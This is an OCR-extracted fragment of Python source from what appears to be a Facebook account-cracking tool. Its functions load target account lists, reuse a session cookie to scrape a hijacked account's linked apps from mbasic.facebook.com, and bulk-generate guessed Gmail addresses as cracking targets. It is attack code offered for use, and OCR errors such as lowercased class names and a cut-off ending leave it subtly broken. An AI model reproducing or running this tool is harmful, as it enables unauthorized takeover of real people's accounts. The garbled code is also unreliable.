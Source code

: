     
l = []

####@-----file-----@####
def file():
    os.system("clear")
    print(logo)
    if 'gm' in l:
        file = '.hannan'
    else:
        file = input(f"{oo('-')}enter file: ")
    try:
        for x in open(file,'r').readlines():
            accounts.append(x.strip())
    except:
        print(f"{oo('!')}file not found");time.sleep(1)
        hxw_main()
     
    method()
    exit()
    
            
   
####@-----appcheck-----@####
def check(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = beautifulsoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
    	pass
    else:
        for gm in game:
            print(f"\033[1;97m---\033[1;96m"+gm.replace('huwtn',' hxw-code=hannan-33'))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = beautifulsoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        pass
    else:
        for gm in game:
            print(f"\033[1;97m---\033[1;93m"+gm.replace('rijan','hxw-182^)code=hannan-2233]'))


####@-----gmail-----@####

def gmail():     
        os.system('rm -rf .hannan')
        first = input(f'{oo("?")}put first name: ')
        last = input(f'{oo("?")}put last name: ')
        domain = input(f'{oo("?")}put domain: ')
        try:
            limit = input(f'{oo("?")}put limit: ')
        except valueerror:
            limit = 5000
        lists = ['3','4']
        for xd in range(int(limit)):
            lchoice = random.choice(lists)
            if '3' in lchoice:
                mail = ''.join(random.choice(string.digits) for _ in range(3))
                open('.hannan','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
            else:
                mail = ''.join(random.choice(string.digits) for _ in range(4))
                open('.hannan','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
            fo = open('.hannan', 'r').read().splitlines()